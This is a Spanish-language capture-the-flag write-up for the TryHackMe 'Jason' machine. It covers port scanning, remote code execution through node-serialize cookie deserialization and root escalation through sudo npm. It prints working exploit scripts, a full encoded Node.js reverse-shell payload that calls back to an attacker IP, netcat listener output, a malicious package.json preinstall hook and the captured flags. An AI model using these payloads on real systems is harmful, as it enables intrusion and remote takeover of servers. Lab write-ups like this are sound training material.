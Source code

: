 ```yaml
---
layout: post
author: jh3x
---
```


## WriteUp máquina **Jason**

Esta es una maquina con un nivel de dificultad Fácil en TryHackme vamos a ello:  
### Fase de reconocimineto
Como primer paso realizamos un ping a la maquina para identificar ante que maquina estamos:  

```console
PING 10.10.58.237 (10.10.58.237) 56(84) bytes of data.
64 bytes from 10.10.58.237: icmp_seq=1 ttl=63 time=307 ms
```

Como observamos la maquina nos responde con un TTL=63 por lo que nos enfrentamos a una maquina linux.  

El siguiente paso es ver que puertos abiertos tiene la maquina por lo que realizamos el siguiente escaneo:  

```console
nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.58.237 -oG allPorts
```
Y vemos los siguientes puertos abiertos:


| **PORT**   | **STATE** | **SERVICE** | **REASON ** |                                                                  
| 22/tcp |open|  ssh     |syn-ack ttl 63|                                                                                                                                                        
| 80/tcp |open|  http    |syn-ack ttl 63|


Teniendo los puertos abiertos identificamos la version de los servicios expuestos con el siguiente comando:

```console
nmap -sC -sV -p22,80 10.10.58.237 -oN targeted
```
Dando como resultado los siguientes servicios:

```console
PORT   STATE SERVICE VERSION                                                                                                                                                               
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                                                          
| ssh-hostkey:                                                                                                                                                                             
|   3072 5b:2d:9d:60:a7:45:de:7a:99:20:3e:42:94:ce:19:3c (RSA)                                                                                                                             
|   256 bf:32:78:01:83:af:78:5e:e7:fe:9c:83:4a:7d:aa:6b (ECDSA)                                                                                                                            
|_  256 12:ab:13:80:e5:ad:73:07:c8:48:d5:ca:7c:7d:e0:af (ED25519)                                                                                                                          
80/tcp open  http                                                                                                                                                                          
| fingerprint-strings:                                                                                                                                                                     
|   GetRequest, HTTPOptions:                                                                                                                                                               
|     HTTP/1.1 200 OK                                                                                                                                                                      
|     Content-Type: text/html                                                                                                                                                              
|     Date: Wed, 09 Feb 2022 21:12:16 GMT                                                                                                                                                  
|     Connection: close                                                                                                                                                                    
|     <html><head>                                                                                                                                                                         
|     <title>Horror LLC</title>                                                                                                                                                            
|     <style>                                                                                                                                                                              
|     body {                                                                                                                                                                               
|     background: linear-gradient(253deg, #4a040d, #3b0b54, #3a343b);                                                                                                                      
|     background-size: 300% 300%;                                                                                                                                                          
|     -webkit-animation: Background 10s ease infinite;
|     -moz-animation: Background 10s ease infinite;
|     animation: Background 10s ease infinite; 
|     @-webkit-keyframes Background {
|     background-position: 0% 50%
|     background-position: 100% 50%
|     100% {
|     background-position: 0% 50%
|     @-moz-keyframes Background {
|     background-position: 0% 50%
|     background-position: 100% 50%
|     100% {
|     background-position: 0% 50%
|     @keyframes Background {
|     background-position: 0% 50%
|_    background-posi
|_http-title: Horror LLC

```
Como podemos observar existe un servicio web por lo que inspeccionamos el servicio en el puerto 80  

![Panel](/images/writeup/jason/panel.png)

Vemos que el sitio web menciona que esta hecho con nodejs (**Built with Nodejs**) por lo que lo tenemos encuenta para las posteriores fases.

### Fase de explotacion

Despues de revisar la funcionalidad del sitio web observamos que al poner un correo en el campo de email address, se nos asigna una cookie donde el valor de session es una cadena en base64 si la decodificamos resulta ser el texto que pusimos de entrada por lo que nos indica que hay algun tipo de procesamiento de los datos como se muestra en la siguiente imagen:  

![Panel](/images/writeup/jason/base64.png)

Por lo que con los datos hasta ahora ya podriamos deducir el vector de ataque.  
Si buscamos exploit por la web referentes a Nodejs hay uno que llama la atención que es un exploit que permite la ejecución remota de comandos mediante la deserializacion de los datos tramitados para mas detalles puedes ver el siguiente link:     
**[Deserialization exploit](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)**.  

Para replicar este exploit  basicamente necesitamos desarrollar los siguientes pasos:  

### [1] Serializar los datos

Para ello podemos hacer uso del script **serialize.js**:  

```js 
var y = {
rce : function(){
require('child_process').exec('whoami', function(error,stdout, stderr) { console.log(stdout) });
    },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
es importante tener npm installado y la libreria node-serialize:

```code
npm install node-serialize
```
Si todo va bien hasta este punto al correr el siguiente comando:

```console
node serialize.js
```
deberia dar como resultado la siguiente salida:

```js
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('whoami', function(error,stdout, stderr) { console.log(stdout) });\n}"}
```

### [2] Deseralizar datos  

Hasta este punto tendriamos los datos serializados pero recordemos que el servidor hace el proceso inverso es decir deserializar los datos por lo que creamos el archivo **unserialize.js**:

```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'whoami\', function(error,stdout, stderr) { console.log(stdout) });}()"}'
serialize.unserialize(payload);
```
Si ejecutamos este script con node podriamos observar en nuestro sistema que tenemos la capacidad de ejecutar comandos:  

```console
root@parrot ▓▒░ node unserialize.js 
root
```
### [3] Obtener una shell reversa

Ahora que tenemos toda la estructura armada buscamos la forma de entablar una reverse shell a nuestra maquina, para ello el articulo **[Deserialization exploit](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)** que mencionamos tiene una utilidad para obtener una reverse shell mediante js la cual esta disponible en: **[NodeJS Shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)**

```console
root@parrot ▓▒░ python2 nodejsshell.py IP 4444                             
[+] LHOST = IP
[+] LPORT = 4444
[+] Encoding
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,57,46,51,46,57,52,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```
Luego copiamos el payload generado desde de la siguiente manera:  
Ejemplo:  

```js
{"rce":"_$$ND_FUNC$$_function(){<Payload generado>}()"}
```
Aplicando:  

```js
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,57,46,51,46,57,52,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

Teniendo este payload lo guardamos en un archivo cualquiera en este caso yo lo llame **UnserevShell.js** y lo codificamos en base64:

```console
 root@parrot ▓▒░  cat  UnserevShell.js | base64 -w 0 |xclip -sel clip
```

Lo ponemos en la web en este caso yo lo puse con un editor de cookies:  

![Panel](/images/writeup/jason/base64Cod.png)

Y recargando la pagina tenemos una flamante reverse shell, asi que realizamos el tratamiento de la tty:  

```console
root@parrot ▓▒░ nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.58.237 55210
Connected!
script /dev/null -c bash
Script started, file is /dev/null
dylan@jason:/opt/webapp$ ^Z
zsh: suspended  nc -nlvp 4444

root@parrot ▓▒░ stty raw -echo; fg
[1]  + continued  nc -nlvp 4444
                               reset xterm
```
Exportamos las variables de entorno:

```console
dylan@jason:/opt/webapp$ export TERM=xterm
dylan@jason:/opt/webapp$ export SHELL=bash
```

Y podemos ver la flag del usuario:

```console
0ba48780dee9f5677a4461f588af217c
```
### Escalada de privilegios

Como primer paso en la escalada de privilegios escribimos el comando ```console sudo -l``` para ver que comandos podemos ejecutar como otros usuarios en este caso tenemos lo siguiente:

![Panel](/images/writeup/jason/sudo.png)

Buscamos algun vector para escalar privilegios en este caso encontre una en la siguiente pagina: **[npm-sudo-exploit](https://gtfobins.github.io/gtfobins/npm/#sudo)**  

Como podemos ver la escalada de privilegios simplemente consistira en ejecutar los siguiente pasos:

Nos dirigimos a un directorio con permisos de escritura y creamos un archivo en:

```console
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > /tmp/package.json 
dylan@jason:~$ sudo npm -C /tmp --unsafe-perm i
```
y obtenemos acceso root pudiendo ver la flag:  

```console
2cd5a9fd3a0024bfa98d01d69241760e
```


